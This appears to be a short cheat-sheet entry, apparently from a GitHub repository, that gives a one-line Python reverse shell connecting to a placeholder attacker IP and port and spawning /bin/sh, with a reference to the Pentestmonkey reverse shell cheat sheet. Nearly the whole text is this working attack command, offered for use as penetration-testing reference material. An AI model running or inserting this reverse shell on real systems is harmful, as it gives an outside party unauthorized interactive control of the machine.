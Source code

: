 # Python

```
$ export RHOST="<IP>";export RPORT=<PORT>; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("$RHOST"),int(os.getenv("$RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

---
## References

- [Reverse Shell Cheatsheet Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)